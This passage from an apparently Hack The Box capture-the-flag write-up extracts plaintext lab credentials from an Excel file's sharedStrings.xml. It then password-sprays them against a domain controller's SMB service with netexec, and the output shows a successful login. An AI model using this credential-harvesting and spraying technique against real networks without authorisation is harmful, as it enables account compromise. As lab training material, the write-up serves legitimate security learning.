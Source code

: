 ## Credentials Extraction from Excel File:

<br />

Unzipping `accounts.xlsx`, we find a `sharedStrings.xml` file that contains credentials in plaintext:

<br />

```bash
❯ cat sharedStrings.xml
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: sharedStrings.xml
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
   2   │ <sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="25" uniqueCount="24"><si><t xml:space="preserve">First Name</t></si><si><t xml:space="preserve">
       │ Last Name</t></si><si><t xml:space="preserve">Email</t></si><si><t xml:space="preserve">Username</t></si><si><t xml:space="preserve">Password</t></si><si><t xml:space="preser
       │ ve">Angela</t></si><si><t xml:space="preserve">Martin</t></si><si><t xml:space="preserve">angela@sequel.htb</t></si><si><t xml:space="preserve">angela</t></si><si><t xml:spac
       │ e="preserve">0fwz7Q4mSpurIt99</t></si><si><t xml:space="preserve">Oscar</t></si><si><t xml:space="preserve">Martinez</t></si><si><t xml:space="preserve">oscar@sequel.htb</t><
       │ /si><si><t xml:space="preserve">oscar</t></si><si><t xml:space="preserve">86LxLBMgEWaKUnBG</t></si><si><t xml:space="preserve">Kevin</t></si><si><t xml:space="preserve">Malon
       │ e</t></si><si><t xml:space="preserve">kevin@sequel.htb</t></si><si><t xml:space="preserve">kevin</t></si><si><t xml:space="preserve">Md9Wlq1E5bZnVDVo</t></si><si><t xml:space
       │ ="preserve">NULL</t></si><si><t xml:space="preserve">sa@sequel.htb</t></si><si><t xml:space="preserve">sa</t></si><si><t xml:space="preserve">MSSQLP@ssw0rd!</t></si></sst>
```

<br />

To validate credentials, we save all this information into a `users` and a `passwords` file.

Then, we can run the following command using `netexec`:

<br />

```bash
❯ netexec smb 10.10.11.51 -u users -p passwords --continue-on-success
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [-] sequel.htb\martin:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\angela:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\oscar:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\kevin:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\sa:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\martin:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\angela:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [+] sequel.htb\oscar:86LxLBMgEWaKUnBG 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\kevin:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\sa:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\martin:Md9Wlq1E5bZnVDVo STATUS_LOGON_FAILURE 
```